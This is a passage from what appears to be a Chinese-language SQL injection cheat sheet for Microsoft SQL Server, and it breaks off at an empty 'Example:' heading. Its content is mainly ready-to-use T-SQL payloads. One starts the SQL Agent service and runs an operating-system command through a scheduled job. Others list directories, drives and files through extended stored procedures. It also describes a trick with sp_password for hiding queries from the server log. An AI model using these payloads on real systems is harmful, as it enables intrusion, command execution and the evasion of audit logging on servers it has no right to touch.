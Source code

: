 附:

回显内容超过表定义长度将会出现内容为 "将截断字符串或二进制数据。"的错误

### 5.SQL代理执行系统命令(SQLSERVERAGENT):

```
use msdb exec sp_delete_job null,'x';exec sp_add_job 'x';exec sp_add_jobstep Null,'x',Null,'1','CMDEXEC','cmd /c  net start >C:\test.txt';exec sp_add_jobserver Null,'x',@@servername exec sp_start_job 'x';

```

（SQLSERVERAGENT服务默认是禁用的,先利用xp_servicecontrol激活SQLSERVERAGENT，然后建立一个SQL计划任务马上运行这个SQL任务实现命令执行。）

激活SQLSERVERAGENT的语句:

```
exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT'

```

### 其他获取系统信息的函数

**1.历遍目录**

```
exec master.dbo.xp_dirtree 'c:\'

```

**2.获取子目录**

```
exec master.dbo.xp_subdirs 'c:\'

```

**3.列举可用的系统分区**

```
exec master.dbo.xp_availablemedia

```

**4.判断目录或文件是否存在**

```
exec master..xp_fileexist 'c:\boot.ini'

```

### SP_PASSWORD （隐藏查询）

在查询结束后追加sp_password,T-SQL日志作为一项安全措施隐藏它。

### SP_PASSWORD

Example:
